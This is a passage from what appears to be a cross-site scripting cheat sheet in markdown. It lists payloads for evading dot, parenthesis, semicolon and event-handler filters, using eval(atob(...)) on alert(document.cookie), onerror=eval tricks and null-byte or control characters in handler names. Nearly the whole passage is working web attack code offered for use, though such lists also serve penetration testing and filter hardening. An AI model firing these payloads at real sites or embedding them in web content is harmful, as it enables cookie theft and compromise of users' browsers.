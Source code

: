 ## Bypass Dot Filter

```javascript
<script>window['alert'](document['domain'])</script>
```

Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`

```javascript
<script>eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))<script>
```

Base64 encoding your XSS payload with Linux command: IE. `echo -n "alert(document.cookie)" | base64` == `YWxlcnQoZG9jdW1lbnQuY29va2llKQ==`

## Bypass Parenthesis for String

```javascript
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
```

## Bypass Parenthesis and Semi Colon

- From @garethheyes

    ```javascript
    <script>onerror=alert;throw 1337</script>
    <script>{onerror=alert}throw 1337</script>
    <script>throw onerror=alert,'some string',123,'haha'</script>
    ```

- From @terjanq

    ```js
    <script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
    ```

- From @cgvwzq

    ```js
    <script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
    ```

## Bypass onxxxx Blacklist

- Use less known tag

    ```html
    <object onafterscriptexecute=confirm(0)>
    <object onbeforescriptexecute=confirm(0)>
    ```

- Bypass onxxx= filter with a null byte/vertical tab/Carriage Return/Line Feed

    ```html
    <img src='1' onerror\x00=alert(0) />
    <img src='1' onerror\x0b=alert(0) />
    <img src='1' onerror\x0d=alert(0) />
    <img src='1' onerror\x0a=alert(0) />
    ```

